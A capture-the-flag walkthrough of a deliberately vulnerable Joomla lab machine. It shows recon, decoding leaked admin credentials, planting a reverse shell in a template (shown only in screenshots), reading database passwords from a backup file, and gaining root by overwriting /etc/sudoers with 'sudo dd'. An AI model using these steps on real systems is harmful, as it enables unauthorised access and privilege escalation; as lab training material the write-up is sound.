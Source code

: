```yaml
---
sticker: lucide//candy
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |
We can get this in the scan:

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306161614.png)

We got administrator templates, let's check it out:



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306161839.png)

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306162017.png)

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on ce239478bbd9:
    (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250306163315.png)

Just like that we got root access.

